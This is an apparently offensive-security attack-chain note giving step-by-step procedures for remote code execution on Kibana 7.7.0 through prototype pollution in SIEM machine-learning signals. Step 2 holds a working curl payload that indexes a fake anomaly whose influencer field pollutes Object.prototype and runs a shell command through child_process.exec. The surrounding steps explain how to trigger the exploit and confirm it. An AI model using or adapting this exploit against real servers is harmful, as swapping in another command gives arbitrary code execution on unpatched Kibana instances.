

---
tags:
  - rce
  - prototype-pollution
  - kibana
  - elasticsearch
  - siem
  - ml-anomalies
type: attack_chain
tools:
  - '[[tools/Kibana]]'
  - '[[tools/Elasticsearch-API]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Import-Malicious-SIEM-Detection-Rule]]'
  - '[[procedures/Create-Fake-ML-Anomaly-for-Prototype-Pollution]]'
  - '[[procedures/Enable-SIEM-Rule-to-Trigger-Exploitation]]'
  - '[[procedures/Wait-for-Rule-Evaluation-and-Code-Execution]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Exploitation for Client Execution]]'
updated_at: '2025-12-14T17:23:35.972Z'
description: >-
  A multi-stage attack exploiting prototype pollution in Kibana's SIEM machine
  learning signal feature to achieve remote code execution on the server.
id: ee7b55c1-4b7b-4128-8cd7-b4ec2d501ad4
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Exploitation for Client Execution]]'
---
---

# Remote Code Execution in Kibana 7.7.0 via Prototype Pollution in SIEM ML Signals

Multi-stage attack chain demonstrating a complete attack workflow exploiting a prototype pollution vulnerability in Kibana 7.7.0's SIEM signal feature for remote code execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Kibana]]
- [[tools/Elasticsearch-API]]

### Target Environment

- Kibana 7.7.0 with SIEM and Machine Learning features enabled
- Elasticsearch cluster with write access to ML anomaly indices
- Ports: 5601 (Kibana), 9200 (Elasticsearch)
- Services: Elasticsearch, Kibana SIEM, ML jobs

### Initial Access Requirements

- Authenticated user with write access to SIEM rules and ML anomaly indices (e.g., in Elastic Cloud)
- Network access to Kibana UI and Elasticsearch API
- No prior elevated access needed, but authentication required

## Detailed Attack Procedures

### Step 1: Import Malicious SIEM Detection Rule
procedure: [[procedures/Import-Malicious-SIEM-Detection-Rule]]

**Objective**: Configure a SIEM rule that processes vulnerable ML anomalies to enable prototype pollution during signal creation.

**Instructions**: Use the Kibana UI or API to import a custom JSON rule that references a specific ML job and looks back 30 hours for anomalies.

**Expected Output**: Rule imported successfully in Kibana SIEM, visible in the rules list.

**Success Indicators**:
- Rule appears in SIEM detection rules
- Rule configuration shows ML job reference (e.g., 'linux_anomalous_network_activity_ecs')

### Step 2: Create Fake ML Anomaly for Prototype Pollution
procedure: [[procedures/Create-Fake-ML-Anomaly-for-Prototype-Pollution]]

**Objective**: Index a malicious ML anomaly document into Elasticsearch that pollutes the Object prototype with a JavaScript payload.

**Instructions**: Execute [[commands/elasticsearch-put-ml-anomaly]] to create the anomaly document with a timestamp in the rule's lookback window and influencers array containing the pollution payload.

```bash
curl -X PUT "localhost:9200/.ml-anomalies-custom-linux_anomalous_network_activity_ecs/_doc/my-anomaly?refresh" -H "Content-Type: application/json" -d '{"timestamp": 1588093630045, "result_type": "record", "record_score": 1, "job_id": "linux_anomalous_network_activity_ecs", "by_field_name": "field_name", "by_field_value": "field_value", "influencers": [{"influencer_field_name": "foo.__proto__.sourceURL", "influencer_field_values": "\u2028\u2029\n;global.process.mainModule.require('child_process').exec('say pwned && open https://www.youtube.com/watch?v=LUsiFV3dsK8')"}]}'
```

Adjust the timestamp to fall within the 30-hour lookback period.

**Expected Output**: Elasticsearch confirms document creation (e.g., {"result": "created"}).

**Success Indicators**:
- Document indexed without errors
- Anomaly visible in Elasticsearch index

### Step 3: Enable SIEM Rule to Trigger Exploitation
procedure: [[procedures/Enable-SIEM-Rule-to-Trigger-Exploitation]]

**Objective**: Activate the imported rule so it begins evaluating ML anomalies and processing the polluted prototype.

**Instructions**: In the Kibana SIEM interface, locate and enable the rule. If needed, disable and re-enable due to potential bugs.

**Expected Output**: Rule status changes to "Enabled" in Kibana.

**Success Indicators**:
- Rule enabled without errors
- No immediate alerts or failures in SIEM logs

### Step 4: Wait for Rule Evaluation and Code Execution
procedure: [[procedures/Wait-for-Rule-Evaluation-and-Code-Execution]]

**Objective**: Allow the rule to run its evaluation cycle, processing the fake anomaly and executing the injected JavaScript payload for RCE.

**Instructions**: Monitor Kibana logs or server output; the rule evaluates every 15 seconds, triggering the pollution during signal creation.

**Expected Output**: On macOS server, audio alert "pwned" plays and browser opens the YouTube video; check server processes for command execution.

**Success Indicators**:
- JavaScript payload executes (e.g., command runs on server)
- Evidence of RCE in logs or system behavior

## Attack Chain Summary

### Key Achievements

1. Imported a custom SIEM rule referencing vulnerable ML anomaly processing
2. Polluted Object prototype via fake anomaly influencers
3. Triggered RCE through rule evaluation without additional privileges
4. Achieved arbitrary command execution on Kibana server

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]
- [[Exploitation for Client Execution]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
